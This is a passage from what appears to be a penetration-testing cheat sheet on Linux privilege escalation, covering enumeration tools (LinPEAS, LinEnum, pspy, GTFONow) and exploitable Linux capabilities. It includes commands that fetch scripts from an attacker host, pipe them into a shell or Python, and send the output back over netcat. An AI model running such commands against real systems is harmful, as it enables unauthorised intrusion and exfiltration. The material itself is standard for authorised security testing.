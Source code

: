 Excute from memory and send output back to the host

```shell
nc -lvnp 9002 | tee linpeas.out
```

```shell
curl 10.10.14.18/linpeas.sh | sh | nc 10.10.14.18 9002
```

## Linenum
[https://github.com/rebootuser/LinEnum](https://github.com/rebootuser/LinEnum)

## Pspy
[https://github.com/DominicBreuker/pspy](https://github.com/DominicBreuker/pspy)

## GTFONow
[https://github.com/Frissi0n/GTFONow](https://github.com/Frissi0n/GTFONow)

To use `GTFONow`, simply run the script from your command line. The basic syntax is as follows:

```shell
python gtfonow.py [OPTIONS]
```

It can also be run by piping the output of curl:

```shell
curl http://attacker.host/gtfonow.py | python
```

# Capabilities

Several Linux capabilities can be used to escalate a user's privileges to `root`, including:

| **Capability**     | **Desciption**                                                                                                                                                                                                               |
| ------------------ | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `cap_setuid`       | Allows a process to set its effective user ID, which can be used to gain the privileges of another user, including the `root` user.                                                                                          |
| `cap_setgid`       | Allows to set its effective group ID, which can be used to gain the privileges of another group, including the `root` group.                                                                                                 |
| `cap_sys_admin`    | This capability provides a broad range of administrative privileges, including the ability to perform many actions reserved for the `root` user, such as modifying system settings and mounting and unmounting file systems. |
| `cap_dac_override` | Allows bypassing of file read, write, and execute permission checks.                                                                                                                                                         |
|                    |                                                                                                                                                                                                                              |
## Enumerating Capabilities

```shell
find /usr/bin /usr/sbin /usr/local/bin /usr/local/sbin -type f -exec getcap {} \;
```

# Docker Privilege Escalation
